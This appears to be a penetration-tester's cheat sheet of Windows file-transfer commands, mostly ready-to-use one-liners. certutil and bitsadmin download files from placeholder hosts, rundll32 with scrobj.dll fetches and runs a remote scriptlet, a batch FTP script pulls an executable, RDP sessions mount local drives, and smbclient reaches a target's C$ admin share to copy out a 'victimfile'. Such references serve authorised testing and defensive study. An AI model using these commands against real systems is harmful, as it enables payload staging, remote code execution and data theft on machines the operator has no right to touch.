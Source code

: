 # Windows File transfer

## certutil

```cheat filetransfer download file
certutil.exe -urlcache -split -f http://<url>/<file> <outfile>
```

## rundll32.exe
### Drops File into Microsoft>Windows>INETCache>IE>.....
```
RUNDLL32.EXE "C:\Windows\System32\scrobj.dll",GenerateTypeLib test.sct http://127.0.0.1/mtrpr3333.png
```

## bitsadmin
Since Windows 2003 SP1 + Win7 + WinXP (in optinal Support Tools)

```cheat filetransfer Download using bitsadmin
bitsadmin /transfer job1 /download /priority high http://<ip>/<file> %TEMP%\<outfile>
```

## ftp
The following code snippet is very FRAGILE (spaces, tabs,...)!!!

```bat cheat filetransfer Using FTP
echo open 192.168.2.200 21> ftpc.txt & echo joe>> ftpc.txt
echo pass>> ftpc.txt
echo bin>> ftpc.txt & echo get file.exe>> ftpc.txt & echo bye>> ftpc.txt & type .\ftpc.txt & ftp -d -s:.\ftpc.txt
```

## rdp
### rdesktop
```
rdesktop 192.168.0.1 -r disk:share=/root/Desktop/RDPmount/ -g 1024x768
```
### xfreerdp
```
xfreerdp /u:user /p:password /v:10.10.10.10 /dynamic-resolution  /drive:E,/home/yoMama1337/engagement/fooo
```

## smb
```
smbclient -U Administrator //172.16.1.1/C$
put file.exe
get victimfile.exe destfile.exe
```
